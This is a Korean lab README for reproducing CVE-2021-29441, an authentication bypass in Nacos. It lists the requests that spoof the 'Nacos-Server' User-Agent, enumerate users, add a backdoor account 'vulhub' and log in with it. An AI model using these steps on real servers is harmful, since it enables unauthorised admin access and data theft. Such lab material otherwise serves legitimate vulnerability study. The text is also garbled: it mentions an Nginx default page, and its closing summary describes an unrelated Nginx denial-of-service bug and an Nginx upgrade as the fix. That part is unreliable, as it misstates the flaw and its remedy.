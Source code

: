 # CVE-2021-29441

**Contributors**

-   [최준성(@Jastes)](https://github.com/Jastes)

<br/>

### 요약

- `Nacos`는 클라우드 네이티브 애플리케이션을 관리하기 위한 오픈 소스 플랫폼으로, 동적 서비스 검색, 구성 관리, 및 서비스 관리를 제공
- `Nacos`의 취약점은 인증 및 권한 부여 과정에서 _"Nacos-Server"_ 사용자 에이전트의 요청을 확인하지 않아 발생함
    <br/> └ 이를 통해 무단 접근을 통해 공격자는 민감한 정보에 접근이 가능해짐(구성이 간단하기에 가능함)

<br/>

### 환경 구성 및 실행

-   `docker compose up -d` 를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8848/` 에 접속하여 Nginx 기본 페이지를 확인함. <br>└ 경우에 따라 안될 수 있으니 서비스를 제시작과 포트 확인이 필요함
-   `python3 poc.py http://your-ip:8848/` 를 호출하여 반환 결과를 읽음. 결과에서 "HTTP 응답 본문" 앞에 있는 "파일 헤더", "HTTP 응답 헤더" 등의 내용을 읽을 수 있음.

<br/>

### 스크립트 활용
```bash
python poc.py http://target:8848
```
![](/nacos/CVE-2021-29441/img/1.png)

<br/>

### 결과
취약성 악용 프로세스는 다음과 같습니다.

1. 요청 패키지에서 User-Agent의 값을 Nacos-Server로 변경
2. http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9 상태 코드가 `200` 인지, 컨텐츠에 포함되어 있는지 확인 `pageItems`
3. http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub `POST` 방법을 사용하여 새 사용자를 추가
4. http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9 기존 사용자 목록
5. http://target:8848/nacos/ ( vulhub / vulhub )을 추가 한 새 사용자를 사용하여 로그인

> 취약점의 존재 감지

![](/nacos/CVE-2021-29441/img/2.png)

헤더를 추가한 후 
```bash
http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9
```
리턴 값이 `200` 인지, Content에 포함되어 있는지 `pageItems` 확인

> 새 사용자 추가

![](/nacos/CVE-2021-29441/img/3.png)

헤더를 추가한 후 게시 요청
```bash
http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub
```

`vulhub` 의 계정과 비밀번호를 사용해 새 사용자를 추가함

> 새로 만든 계정을 사용하여 로그인

![](/nacos/CVE-2021-29441/img/4.png)

<br/>

### 정리

> 구버전(0.5.6부터 1.13.2 버전까지)의 Nginx 웹 서버에서 발견된 원격 공격을 통한 서비스 거부 취약점 

- 공격자가 특정 조건에서 웹 서버를 중단시키는 것이 가능 
- 적절한 웹 서버 구성 및 업데이트(1.13.2 버전보다 업그래이드)로 방지 가능

